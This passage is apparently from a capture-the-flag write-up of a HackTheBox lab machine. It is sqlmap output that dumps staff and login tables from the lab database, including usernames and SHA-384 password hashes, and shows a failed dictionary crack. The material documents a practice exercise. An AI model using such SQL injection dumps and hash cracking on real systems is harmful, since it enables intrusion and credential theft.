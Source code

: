     | 4    | kpage@megacorp.htb   | kpage.jpg   | Kimberly Page        | Financial Analyst    |
    | 5    | shayna@megacorp.htb  | shayna.jpg  | Shayna Stafford      | HR Manager           |
    | 6    | james@megacorp.htb   | james.jpg   | James Houston        | QA Lead              |
    | 7    | cyork@megacorp.htb   | cyork.jpg   | Connor York          | Web Developer        |
    | 8    | rmartin@megacorp.htb | rmartin.jpg | Reya Martin          | Tech Support         |
    | 9    | zac@magacorp.htb     | zac.jpg     | Zac Curtis           | Junior Analyst       |
    | 10   | jorden@megacorp.htb  | jorden.jpg  | Jorden Mclean        | Full-Stack Developer |
    | 11   | alyx@megacorp.htb    | alyx.jpg    | Alyx Walters         | Automation Engineer  |
    | 12   | ilee@megacorp.htb    | ilee.jpg    | Ian Lee              | Internal Auditor     |
    | 13   | nbourne@megacorp.htb | nbourne.jpg | Nikola Bourne        | Head of Accounts     |
    | 14   | zpowers@megacorp.htb | zpowers.jpg | Zachery Powers       | Credit Analyst       |
    | 15   | aldom@megacorp.htb   | aldom.jpg   | Alessandro Dominguez | Senior Web Developer |
    | 16   | minato@megacorp.htb  | minato.jpg  | MinatoTW             | CEO                  |
    | 17   | egre55@megacorp.htb  | egre55.jpg  | egre55               | CEO                  |
    +------+----------------------+-------------+----------------------+----------------------+

    [18:52:23] [INFO] table 'Hub_DB.dbo.Colleagues' dumped to CSV file '/root/.sqlmap/output/10.10.10.179/dump/Hub_DB/Colleagues.csv'
    [18:52:23] [INFO] fetching columns for table 'Logins' in database 'Hub_DB'
    [18:52:33] [INFO] fetching entries for table 'Logins' in database 'Hub_DB'
    [18:52:38] [INFO] recognized possible password hashes in column '[password]'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
    do you want to crack them via a dictionary-based attack? [Y/n/q] Y
    [18:52:38] [INFO] using hash method 'sha384_generic_passwd'
    what dictionary do you want to use?                        
    [1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
    [2] custom dictionary file                                 
    [3] file with list of dictionary files                     
    > 1                                                        
    [18:52:38] [INFO] using default dictionary                 
    do you want to use common password suffixes? (slow!) [y/N] N
    [18:52:38] [INFO] starting dictionary-based cracking (sha384_generic_passwd)
    [18:52:38] [INFO] starting 3 processes                     
    [18:52:50] [WARNING] no clear password(s) found
    Database: Hub_DB 
    Table: Logins                                              
    [17 entries]
    +------+----------+--------------------------------------------------------------------------------------------------+
    | id   | username | password                                                                                         |
    +------+----------+--------------------------------------------------------------------------------------------------+
    | 1    | sbauer   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
    | 2    | okent    | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
    | 3    | ckane    | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
    | 4    | kpage    | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
    | 5    | shayna   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
    | 6    | james    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |